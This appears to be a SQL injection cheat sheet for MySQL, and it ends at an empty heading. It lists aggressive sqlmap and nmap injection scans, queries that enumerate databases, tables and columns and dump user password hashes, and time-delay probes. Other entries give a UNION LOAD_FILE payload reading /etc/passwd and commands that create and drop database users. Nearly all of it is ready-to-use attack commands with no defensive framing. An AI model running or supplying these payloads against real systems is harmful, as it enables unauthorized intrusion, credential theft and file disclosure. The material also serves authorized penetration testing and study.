 # SQL Injection Cheat Sheet

## Automated Tools

### SQLMAP

| Command                                                        | Description                           |
| -------------------------------------------------------------- | ------------------------------------- |
| `sqlmap -u "url" --forms --batch --crawl=10 --level=5 --risk=3`  | Automated SQL Injection scan with form handling |
| `nmap -p80 --script=http-sql-injection --script-args=http-spider.maxpagecount=200 <target>` | Using Nmap to detect SQL Injection vulnerability |

### MySQL

| Query                                                         | Description                           |
| ------------------------------------------------------------- | ------------------------------------- |
| `SELECT @@version;`                                            | Get MySQL version                     |
| `SELECT user();`                                               | Get current MySQL user                |
| `SELECT system_user();`                                         | Get system user                       |
| `SELECT user FROM mysql.user;`                                  | List users                            |
| `SELECT host, user, password FROM mysql.user;`                  | List password hashes                 |
| `SELECT database();`                                            | Get current database                  |
| `SELECT schema_name FROM information_schema.schemata;`          | List databases                        |
| `SELECT DISTINCT(db) FROM mysql.db;`                           | List databases (alternative)          |
| `SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';` | List tables (exclude system databases) |
| `SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema';` | List columns in all tables            |
| `SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username';` | Find tables with 'username' column    |
| `SELECT BENCHMARK(1000000,MD5('A'));`                           | Time delay for SQL injection testing  |
| `SELECT SLEEP(5);`                                              | Time delay function                   |
| `... UNION ALL SELECT LOAD_FILE('/etc/passwd') --`               | Local file access (UNIX)              |
| `SELECT @@hostname;`                                            | Get hostname/IP address               |
| `CREATE USER test1 IDENTIFIED BY 'pass1'; --`                   | Create a new MySQL user               |
| `DROP USER test1; --`                                           | Delete a MySQL user                   |
| `SELECT @@datadir;`                                             | Location of MySQL data directory      |

### SQLMAP Commands for Database Interaction
